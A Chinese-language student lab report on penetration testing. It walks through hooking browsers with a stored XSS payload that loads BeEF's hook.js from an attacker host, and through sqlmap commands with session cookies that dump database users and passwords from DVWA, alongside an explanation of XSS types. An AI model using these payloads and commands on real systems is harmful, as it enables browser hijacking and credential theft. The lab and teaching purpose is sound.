


# 网络渗透测试实验三
# XSS 部分：利用 Beef**** 劫持被攻击者客户端浏览器。
实验环境：存在 xss 漏洞的留言板，IIS 虚拟机，Kali
# 1、利用 AWVS 扫描留言簿网站，发现其存在 XSS 漏洞。
可以看到你开默认模式的话会有大量的测试 payload 写入留言板
所以在实战扫描时要注意，扫描但🔒不要破坏资产
# 2、 Kali 使用 beef 生成恶意代码
打开终端启动 beef-xss 会自动生成恶意文件
并通过跨站运行脚本的形式操控被攻击者
# 3、访问留言簿网站，将恶意代码写入网站留言板.
<script src="http://192.168.0.135:3000/hook.js"></script>
# 4、管理员登录 login.htm，账号密码均为 admin，审核用户留言。只要客户端访问这个服务器的留言板，客户端浏览器就会被劫持，指定被劫持网站为学校主页，将你在 beff 中的配置截图。
# 5、回答问题：实验中 XSS 攻击属于哪种类型？
XSS 有三种类型
1. 反射型
反射型 XSS 一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的 URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。
对于访问者而言是一次性的，具体表现在我们把我们的恶意脚本通过 URL 的方式传递给了服务器，而服务器则只是不加处理的把脚本 “反射” 回访问者的浏览器而使访问者的浏览器执行相应的脚本。反射型 XSS 的触发有后端的参与，要避免反射性 XSS，必须需要后端的协调，后端解析前端的数据时首先做相关的字串检测和转义处理。
此类 XSS 通常出现在网站的搜索栏、用户登录口等地方，常用来窃取客户端 Cookies 或进行钓鱼欺骗。
2. 存储型
攻击者事先将恶意代码上传或储存到漏洞服务器中，只要受害者浏览包含此恶意代码的页面就会执行恶意代码。这就意味着只要访问了这个页面的访客，都有可能会执行这段恶意脚本，因此储存型 XSS 的危害会更大。
存储型 XSS 一般出现在网站留言、评论、博客日志等交互处，恶意脚本存储到客户端或者服务端的数据库中。
3.Dom 型
客户端的脚本程序可以动态地检查和修改页面内容，而不依赖于服务器端的数据。例如客户端如从 URL 中提取数据并在本地执行，如果用户在客户端输入的数据包含了恶意的 JavaScript 脚本，而这些脚本没有经过适当的过滤和消毒，那么应用程序就可能受到 DOM-based XSS 攻击。需要特别注意以下的用户输入源 document.URL、 location.hash、 location.search、 document.referrer 等。
本次实验是存储型 XSS 漏洞
# SQL 注入部分：DVWA+SQLmap+Mysql 注入实战
实验环境搭建。启动 Metasploitable2 虚拟机。
用 kali 访问 Metasploitable2 的 dvwa
# 1、注入点发现。首先肯定是要判断是否有注入漏洞。
在输入框输入 1，返回
ID: 1
First name: admin
Surname: admin
返回正常；
再次输入 1'，报错，返回
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
此时可以断定有 SQL 注入漏洞，
下面利用 SQLMap 进行注入攻击。将 DVWA 安全级别设置为最低；
因为需要登陆到 dvwa 所以需要获取到 cookies (f12)

# 2、枚举当前使用的数据库名称和用户名。
sqlmap -u '192.168.0.119/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=1b12f42a1d09ded8a69bef4a465df117' -b --current-db --current-user
# 3、枚举数据库用户名和密码
sqlmap -u '192.168.0.119/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=1b12f42a1d09ded8a69bef4a465df117' -D dvwa --string="Surname" --users --password
# 4、枚举数据库
--dbs：枚举当前数据库
sqlmap -u '192.168.0.119/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=1b12f42a1d09ded8a69bef4a465df117' --dbs
# 5、枚举数据库和指定数据库的数据表
-D 数据库名：指定数据库
--tables：枚举指定数据库的所有表
sqlmap -u '192.168.0.119/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=1b12f42a1d09ded8a69bef4a465df117' -D mysql -T user --columns

# 6、获取指定数据库和表中所有列的信息
-D：指定的数据库
-T：指定数据库中的数据表
--columns：获取列的信息
sqlmap -u '192.168.0.119/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=1b12f42a1d09ded8a69bef4a465df117' -D mysql -T user -C user,password --dump
# 7、枚举指定数据表中的所有用户名与密码，并 down 到本地。
-C：枚举数据表中的列
--dump：存储数据表项
sqlmap -u '192.168.0.119/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie='security=low; PHPSESSID=1b12f42a1d09ded8a69bef4a465df117' --string="Surname" -D dvwa -T users -C user,password --dump
文件保存在 root 文件夹需要 root 的权限才能查看，可以通过 chmod 命令更改权限。此外.local 文件是隐藏文件夹 图形化界面按下组合键 ctrl+H 显示，命令行 ls -la.
# 总结
这次实验学习了 sqlmap 和 beef 的使用，了解了关于 sql 注入和 xss 利用的知识， 没有金刚钻别揽瓷器活学会使用工具是提高效率的第一步。之后还要探索工具背后的实现原理，这样才能做到游刃有余！